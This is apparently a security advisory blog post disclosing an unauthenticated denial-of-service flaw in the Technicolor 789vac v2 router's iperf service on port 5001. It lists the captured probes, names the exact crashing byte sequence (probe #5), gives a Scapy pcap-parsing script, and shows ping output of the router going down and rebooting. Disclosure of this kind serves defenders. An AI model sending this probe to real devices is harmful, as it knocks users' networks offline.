 ```yaml
---
layout: post
title: "Router Technicolor 789vac v2" 
date: 2025-01-15
comments: "-"
categories: vulnerability
---
```


## Affected products

```
    Technicolor 789vac v2 - firmware AGTOT_2.0.0
    -------------------------------- AGTOT_2.0.1
    -------------------------------- AGTOT_2.2.3
```

We have not yet tested Technicolor models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.


## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT_2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

- Testthe improper behaviours. Simultaneously, we captured the network traffic log all packets exchanged. 
- Save the captured data in PCAPNG format for further analysis. 
- Collect all the probes analyzing pcapng (e.g. Scapy)
- Filter precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of the probes collected: 
```
Probe #1 BOF: b'\x41' * 10000
Probe #2 Unexpected input from another protocol: b'GET / HTTP/1.1\r\nHost: 192.168.1.1\r\n\r\n'
Probe #3: b'\r\n\r\n'
Probe #4 Enumeration: b'\x69\x70\x65\x72\x66\x20\x2d\x76\x00'
Probe #5 unexpected binary sequence: b'\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01'
```

Probe scraping: 
```
from scapy.all import rdpcap

file_path = 'crash.pcapng'  # Replace with your file path
packets = rdpcap(file_path)

target_ip = "ip_addr" 
target_port = 5001

probes = []
for packet in packets:
    if packet.haslayer("TCP") and packet["TCP"].dport == target_port and packet["IP"].dst == target_ip:
        payload = bytes(packet["TCP"].payload)
        if payload and payload not in probes: 
            probes.append(payload)

for i, probe in enumerate(probes, start=1):
    print(f"Probe #{i}: {probe}")
```

The probe #5 is the chosen one that leads Techicolor 789vac failure. 

```
64 bytes from 192.168.1.1: icmp_seq=183 ttl=64 time=0.401 ms
64 bytes from 192.168.1.1: icmp_seq=184 ttl=64 time=0.348 ms
64 bytes from 192.168.1.1: icmp_seq=185 ttl=64 time=0.384 ms
64 bytes from 192.168.1.1: icmp_seq=186 ttl=64 time=0.373 ms
64 bytes from 192.168.1.1: icmp_seq=187 ttl=64 time=0.335 ms
64 bytes from 192.168.1.1: icmp_seq=188 ttl=64 time=0.349 ms
64 bytes from 192.168.1.1: icmp_seq=189 ttl=64 time=4.66 ms
64 bytes from 192.168.1.1: icmp_seq=190 ttl=64 time=0.518 ms
64 bytes from 192.168.1.1: icmp_seq=191 ttl=64 time=0.385 ms
64 bytes from 192.168.1.1: icmp_seq=192 ttl=64 time=0.418 ms


From 192.168.1.2 icmp_seq=247 Destination Host Unreachable
From 192.168.1.2 icmp_seq=248 Destination Host Unreachable
From 192.168.1.2 icmp_seq=249 Destination Host Unreachable
```
Before the failure (icmp_seq=183 to icmp_seq=188) the latency can be considered low (~0.3-0.4 ms)
During the moment of disruption (icmp_seq=189) there's a sudden spike in response time, which indicates the system is struggling to process the incoming data.
After failure (icmp_seq=190 to icmp_seq=192), the router resumes responding briefly until the total failure (icmp_seq=247 and beyond), becoming unreachable.

Moreover, this will result in an unintended system reboot. The time required for the system to reboot is unpredictable, ranging from a few seconds up to 10 minutes after the actor has exploited the system.
 
